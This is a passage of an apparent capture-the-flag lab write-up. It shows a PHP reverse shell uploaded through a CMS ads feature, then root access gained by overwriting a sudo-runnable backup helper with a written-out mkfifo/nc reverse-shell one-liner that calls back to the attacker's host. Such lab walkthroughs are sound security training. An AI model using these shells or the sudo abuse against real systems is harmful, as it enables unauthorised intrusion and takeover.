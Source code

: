 - I added a PHP reverse shell into Ads (saved to `/content/inc/ads/php_reverse_shell.php`).
<br><br>
- Started a listener on my machine:
```bash
nc -lvnp 1234
```
<br><br>
<img width="1919" height="816" alt="image" src="https://github.com/user-attachments/assets/34b8b2dc-0f52-43f4-99aa-9fef8bb7f3be" />

- Triggered the uploaded ad file/URL and received a shell as `www-data`.

---

### First Flag
<img width="570" height="132" alt="1" src="https://github.com/user-attachments/assets/9d189865-de68-4578-a33b-c62f108e7158" />

- Flag found: `[FLAG FOUND]`

---

## Privilege Escalation

### Checking sudo rights
<img width="1559" height="125" alt="image" src="https://github.com/user-attachments/assets/c8e53644-d0a1-45c7-9e79-5336eed9037a" />

- On the `www-data` shell:
```bash
sudo -l
```
- Output:
```bash
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

---

### Abusing backup.pl
- `backup.pl` executes `/home/itguy/copy.sh` as part of its routine.
- I replaced `copy.sh` with a reverse-shell payload that connects back to my machine, started a listener, then executed the allowed sudo command to trigger it.
```bash
echo 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.21.4.114 4444 > /tmp/f' > /home/itguy/copy.sh
# on target:
sudo /usr/bin/perl /home/itguy/backup.pl
```

---

### Second Flag
<img width="523" height="116" alt="f75e29c2-2aa5-4b3d-ab0d-7106b72850e0" src="https://github.com/user-attachments/assets/db44ac0f-0763-4ab8-9cb9-876888e7e454" />

- Flag found: `[FLAG FOUND]`
